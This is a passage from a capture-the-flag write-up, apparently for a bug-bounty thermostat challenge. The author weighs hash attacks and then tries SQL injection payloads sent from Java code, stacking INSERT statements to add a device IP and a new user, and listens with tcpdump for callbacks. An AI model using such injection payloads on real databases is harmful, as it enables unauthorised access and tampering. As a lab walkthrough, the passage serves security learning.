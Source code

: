 ### Hash

It's a good decision to revisit the major hash attacks:

#### Hash Extension? or Hash Colision?

Could it be a hash extension vulnerability? In short hash extension occurs _when a Merkle–Damgård based hash is misused as a message authentication code with construction H(secret ‖ message), and message and the length of secret is known, a length extension attack allows anyone to include extra information at the end of the message and produce a valid hash without knowing the secret_. [10][11] In our scenario this is not applicable as there isn't a signature or message authentication code to be validated.

Or could it be a hash colision? First of all, to be a hash colision we would need a valid hash and this is not the case here.

### What to do now?

At this moment I was in a hard situation. No ideas... I was sure that something important was left behind. Consequently, I decided to go back and search for more flaws or any kind of relevant information.

#### Maybe a SSRF?

What if I could insert another IP into the devices table and use `setTemp` command to change thermostat temperature? Maybe when someone change the temperature all devices will receive a HTTP request with some authorization token and so I could use this to log in. Seems viable. First step is to try `INSERT`:

```java
System.out.println(PayloadRequest.sendCommand("';INSERT INTO devices(ip) values('X.X.X.X'); commit#", "", "getTemp"));
```
Ok, it worked. I have my IP address as a device. Now let's run tcpdump [6] on my server (X.X.X.X) to capture all network traffic. Lastly, we need to send some requests with `getTemp` and `setTemp` commands.

`# tcpdump -i eth0 -nnvvXS`

But "nothing" happens... only a connection (port 80) from someone in San Francisco during h1-415. :) Definitively I should remove my IP address. Dead end here.

#### Create another user?

We are able to insert any device, maybe we can insert another user and use this as login and password for Thermostat Login.

```java
System.out.println(PayloadRequest.sendCommand("';INSERT INTO users(username, password) values('manoelt','e08e9df699ce8d223b8c9375471d6f0f'); commit#", "", "getTemp"));
```

No. We are not able to log in! :(

#### Another command?

And if there is another parameter? Let's brute force it!
